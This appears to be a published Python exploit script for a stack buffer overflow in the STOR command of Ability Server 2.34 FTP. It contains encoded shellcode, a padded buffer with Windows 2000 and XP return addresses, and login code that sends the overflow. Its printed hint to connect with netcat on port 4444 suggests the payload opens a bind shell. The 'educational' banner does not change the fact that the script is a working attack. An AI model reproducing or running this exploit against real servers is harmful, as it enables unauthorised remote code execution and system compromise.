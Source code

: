 ```python

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n"
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1')
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer)
except:
print "\nDone."
```

![ImgPlaceholder](src/placeholder-image-300x225.png)
